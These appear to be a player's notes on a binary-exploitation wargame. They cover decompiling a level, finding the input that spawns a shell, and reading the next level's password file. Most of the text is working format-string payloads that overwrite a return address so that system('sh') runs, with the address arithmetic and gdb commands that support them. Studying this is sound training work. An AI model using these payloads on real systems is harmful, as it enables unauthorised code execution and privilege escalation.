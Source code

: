 decompile the binary:
    - the binary read from input a number
    - sub this number from 0x1337d00d save result
    - compare result: result <= '0x15'
    - if true: call decrypt(result)
    - decrypt:
        - decrypt "Q}|u`sfg~sf{}|a3" with the result save it in hash.
        - compare hash == "Congratulations!"
        - if true: system("/bin/sh")
        - else print("error")
prepare:
    to call decrypt with the result we need to send a value with  0 <= 0x1337d00d - x <= 21
    so we have 21 number that make it easy to try to decrypt with all the 21 number
    then we found that 18 give us the result that we want.
     
exec bin:
    0x1337d00d - 18 = 322424827;
    - write 322424827 -> get sh prompt
    - cat /home/users/level04/.pass -> flag


0xf7e6aed0

000011112222%26727c%10$n%18013c%11$hn%18710c%12$hn
000011112222 | %10$p | %11$p | %12$p
python -c 'print "\x76\xd6\xff\xff\x74\xd6\xff\xff\x6c\xd6\xff\xff\x6e\xd6\xff\xff%2036c%10$n%32865c%11$hn%9835c%12$hn%18710c%13$hn"'


\x6c\xd6\xff\xff
\x6e\xd6\xff\xff
0x08048865 -> "sh"
0xffffd66c -> return address
0xffffd674 -> system() param address
0xf7e6aed0 -> system() address
0xf7e927c0 -> puts() address

0x0804 - 16     == 2036
0x8865 - 0x0804 == 32865
0xaed0 - 0x8865  == 9835
0xf7e6 - 0xaed0 == 18710

python -c 'print "\x74\xd6\xff\xff\x6c\xd6\xff\xff\x6e\xd6\xff\xff%10164c%11$n%16563c%10$hn%36726c%12$hn"'
0x27c0 - 12 == 10164
0x6873 - 0x27c0 == 16563
0xf7e9 - 0x6873 == 36726

set follow-fork-mode child
set detach-on-fork off
catch fork
b main
r

=========================================
https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb
gdb) info proc map
process 930
Mapped address spaces:

      Start Addr           End Addr       Size     Offset objfile
        0x400000           0x401000     0x1000        0x0 /myapp
        0x600000           0x601000     0x1000        0x0 /myapp
        0x601000           0x602000     0x1000     0x1000 /myapp
  0x7ffff7a1c000     0x7ffff7bd2000   0x1b6000        0x0 /usr/lib64/libc-2.17.so
  0x7ffff7bd2000     0x7ffff7dd2000   0x200000   0x1b6000 /usr/lib64/libc-2.17.so
  0x7ffff7dd2000     0x7ffff7dd6000     0x4000   0x1b6000 /usr/lib64/libc-2.17.so
  0x7ffff7dd6000     0x7ffff7dd8000     0x2000   0x1ba000 /usr/lib64/libc-2.17.so

(gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"sh"
0x7ffff7b98489
1 pattern found.
(gdb) x /s 0x7ffff7b98489
0x7ffff7b98489: "/bin/sh"
(gdb) x /xg 0x7ffff7b98489
0x7ffff7b98489: 0x0068732f6e69622f

